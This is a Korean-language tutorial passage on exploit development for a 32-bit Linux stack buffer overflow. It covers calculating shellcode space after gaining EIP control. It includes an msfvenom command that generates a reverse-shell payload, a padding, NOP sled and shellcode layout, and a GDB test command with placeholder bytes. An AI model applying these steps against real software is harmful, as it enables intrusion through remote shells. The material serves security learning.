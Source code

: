 # 셸코드 길이 결정: EIP 제어 이후의 단계

BOF(버퍼 오버플로우)에서 EIP를 제어한 이후, 실제 악성 코드를 삽입하려면 \*\*쉘코드(Shellcode)\*\*를 어디에 넣고, 얼마나 넣을 수 있는지 공간 계산이 필요하다. 이 과정을 시각적 흐름과 함께 정리한다.

---

## 쉘코드 삽입을 위한 공간 계산

- 목표: 리버스 쉘 등의 동작을 담은 **쉘코드**를 삽입하고 실행시키는 것
- 우선 `msfvenom`을 사용하여 payload 크기를 확인한다.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=31337 \
  --platform linux --arch x86 --format c
```

- 출력 예:

```
Payload size: 68 bytes
```

- 여유 있게 넉넉히 공간을 확보하는 게 좋음 (예: 150바이트)

---

## NOP Sled와 전체 구조 만들기

- 보통 shellcode 앞에 \*\*NOP sled (`\x90`)\*\*를 삽입하면 안정적으로 실행됨
- 전체 구조:

  - 전체 오버플로우 크기: **1040 바이트**
  - NOP 공간: **100 바이트**
  - Shellcode 공간: **150 바이트**
  - EIP 덮기: **4 바이트**
  - 따라서 패딩(Buffer)은: `1040 - 100 - 150 - 4 = 786` 바이트
  
> 패딩(Buffer)이란?: **"공간을 채우기 위한 임시 데이터"**(버퍼 오버플로우)

![쉘코드 구조1](../images/buffer_overflow_8.png)

---

## GDB 실험으로 확인하기

- 아래와 같이 페이로드를 구성하고 GDB에서 실행해보자.

```bash
(gdb) run $(python -c 'print "\x55" * 786 + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

- `\x55` - padding (EIP 전까지 채움)

- `\x90` - NOP sled

- `\x44` - 쉘코드 자리 (임시 바이트로 테스트)

- `\x66` - EIP에 덮을 값 (예: `0x66666666`)

- 결과:

```
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

![쉘코드 구조2](../images/buffer_overflow_7.png)

---

## 요약

| 구성 요소     | 크기 (bytes) | 설명                |
| --------- | ---------- | ----------------- |
| Padding   | 786        | EIP 전까지 채움        |
| NOP sled  | 100        | 안정적 실행 보장용 NOP    |
| Shellcode | 150        | 실제 공격 payload     |
| EIP       | 4          | 덮어서 shellcode로 점프 |

- 쉘코드 길이 계산은 단순히 shellcode 크기만 보는 것이 아니라, 전체 페이로드 구조를 정확히 조합하고 시뮬레이션하는 것이 핵심이다.
